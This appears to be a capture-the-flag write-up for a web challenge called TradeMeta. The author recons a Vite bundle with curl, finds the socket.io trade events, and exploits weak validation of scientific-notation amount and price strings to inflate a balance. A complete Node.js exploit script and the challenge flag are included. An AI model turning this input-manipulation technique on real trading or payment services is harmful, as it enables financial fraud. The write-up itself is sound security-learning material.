


# TradeMeta

| Field      | Value |
|------------|-------|
| Category   | Web Exploitation |
| Points     | 250 |
| Solves     | 41 |
| Connection | https://trademeta.vitbctf.dev |

## Description

Welcome to Trademeta, the next generation of institutional-grade crypto trading. Our platform is built on a high-concurrency engine that handles thousands of transactions per second. We pride ourselves on transparency, speed, and cross-chain liquidity.

The core of our platform is the Institutional Gateway, a restricted-access portal for our top-tier liquidity providers. Those who demonstrate their value to the ecosystem will find they have privileged access. Can you find your way into the backroom?

## Writeup

> ```Flag:```  `hackzero{c3f0820eddf9dba5455e272677eb8d9f}`

---

## Challenge Information
- **CTF Name:** HackZero 2026
- **Challenge Name:** TradeMeta
- **Category:** Web Exploitation
- **Points:** 250
- **Author:** @pphreak_1001
- **Solved By:** ret2.libc

---


This one looked like normal crypto trading, but the real bug was in logic and type handling.


## Initial Recon
I opened the challenge URL and first thing I usually do is to find the tech stack of the site, so that it will be light easier for other recon steps, and I saw a Vite frontend.

I used `curl -i` to inspect the homepage headers and content. Then I extracted the JS bundle path from the homepage (as u might know vite leaks few infos in js ):

```bash
curl -s https://trademeta.vitbctf.dev/ | grep -o '/assets/index-[^" ]*\.js'
```


Then I downloaded the bundle:

```bash
curl -s https://trademeta.vitbctf.dev/assets/index-CTFXxHix.js -o app.js
```


## Step 2: Reverse Frontend Logic
Also the JS bundle was minified, but string search was enough lol. I searched for API and socket terms:

```bash
grep -oE 'flag|operation_success|operation_error|execute_trade|transfer_funds|manage_funds|/api/me|/api/login|/api/signup|auth:\{token' app.js | sort -u
```


From the frontend code, I found key points:
- API routes were `/api/signup`, `/api/login`, `/api/me`
- Socket auth format was `io("/", { auth: { token } })`
- Opened the file in editor and searched for flag;The flag is pushed by websocket on `flag_award`

So also I knew I needed a JWT token and websocket access.

## Step 3: Register, Login, and Token
I created an account and got a token.
I inspected the approach in burp


Then I verified the token with `/api/me`:

```bash
curl -s https://trademeta.vitbctf.dev/api/me \
  -H "Authorization: Bearer <TOKEN>"
```


## Step 4: WebSocket
I used Node and `socket.io-client`.


Then I wrote a small script (gave constrains, asked ai to write code, but the core logical analysis were from my mind 👀)to connect and print events, especially `operation_success`, `operation_error`, and `flag_award`.

## Step 5: Finding the Bug
I fuzzed `execute_trade` and found weak validation for scientific notation strings.

Important behavior:
- `amount: "1e5"` was accepted
- `price: "1e-8"` was accepted

That meant I could buy huge BTC with almost no cost.
Then I sold that BTC at a high price (`67000`) and got massive USDT.
That pushed my balance over the institutional threshold, and the server emitted `flag_award`.

## Final Exploit Script
I used this script in Kali:

```js
const { io } = require('socket.io-client');

const token = process.argv[2];
if (!token) {
  console.log('Usage: node exploit.js <JWT_TOKEN>');
  process.exit(1);
}

const s = io('https://trademeta.vitbctf.dev/', {
  auth: { token },
  transports: ['websocket']
});

s.on('connect', () => {
  console.log('[+] connected:', s.id);

  s.emit('execute_trade', {
    symbol: 'BTC/USDT',
    side: 'buy',
    amount: '1e5',
    price: '1e-8'
  });

  setTimeout(() => {
    s.emit('execute_trade', {
      symbol: 'BTC/USDT',
      side: 'sell',
      amount: '1e5',
      price: 67000
    });
  }, 700);
});

s.on('operation_success', (d) => {
  console.log('[+] success:', d.message);
  if (d.user) {
    console.log('[+] balances:', {
      usdt: d.user.balance_usdt,
      btc: d.user.balance_btc
    });
  }
});

s.on('operation_error', (d) => {
  console.log('[-] error:', d.message);
});

s.on('flag_award', (d) => {
  console.log('[FLAG]', d.message);
  process.exit(0);
});

s.on('connect_error', (e) => {
  console.log('[-] connect_error:', e.message);
});
```

Run it like:

```bash
node exploit.js <JWT_TOKEN>
```

It returned:

```text
[FLAG] hackzero{c3f0820eddf9dba5455e272677eb8d9f}
```


The trade input accepted scientific notation string values.
Validation allowed unhealthy values, and business logic trusted parsed numbers.
That let me create unrealistic trades and inflate funds.

The path from frontend reversing to websocket business-logic bug was very fun.
Vite made the JS bundle easy to inspect.

## Author

ret2.libc
